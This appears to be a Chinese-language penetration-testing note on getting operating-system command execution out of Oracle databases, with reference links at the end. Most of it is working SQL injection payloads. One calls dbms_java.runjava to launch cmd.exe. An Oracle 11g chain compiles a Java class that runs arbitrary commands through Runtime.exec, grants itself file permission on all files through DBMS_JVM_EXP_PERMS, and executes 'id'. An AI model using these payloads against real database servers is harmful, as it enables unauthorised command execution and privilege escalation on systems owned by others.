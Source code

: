 2、利用漏洞函数执行命令

```
select dbms_java.runjava('oracle/aurora/util/Wrapper c:\\\\windows\\\\system32\\\\cmd.exe /c  command}')from dual
```

**Oracle11g 命令执行**

oracle 11.2.0.4 以下版本

创建 java Source

select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate''create or replace and compile java source named "AAA" as import java.io.*; public class AAA extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;

创建 java function

select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''AAA.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;

查看 java function 及 java source 是否创建成功 都成功会出现 3 个内容 AAA java source, AAA java class, LinxRunCMD function

select object_name, object_type, created from user_objects ORDER BY CREATED desc;

赋予 java.io.FilePermission 权限

select dbms_xmlquery.newcontext('DECLARE POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY; CURSOR C1 IS SELECT''GRANT'',USER(),''SYS'',''java.io.FilePermission'',''<<ALL FILES>>'',''execute'',''ENABLED''from dual; BEGIN OPEN C1; FETCH C1 BULK COLLECT INTO POL; CLOSE C1; DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL); END;') from dual

查看权限是否赋予成功

select * from user_java_policy where grantee_name='TEST';  grantee_name 为当前用户的权限。

执行命令

select LinxRunCMD('id') from dual

**Oracle10g 命令执行**

https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/

https://www.buaq.net/go-28792.html

**参考链接**

**微信读书《oracle 从入门到精通》《oracle11g 宝典》中体系结构 数据字典 权限控制相关章节**

https://hackingprofessional.github.io/Security/how-to-hack-an-Oracle-database-server/

https://www.cnblogs.com/qingxinblog/p/4043173.html  

**C++ 使用 oci 连接 oracle**

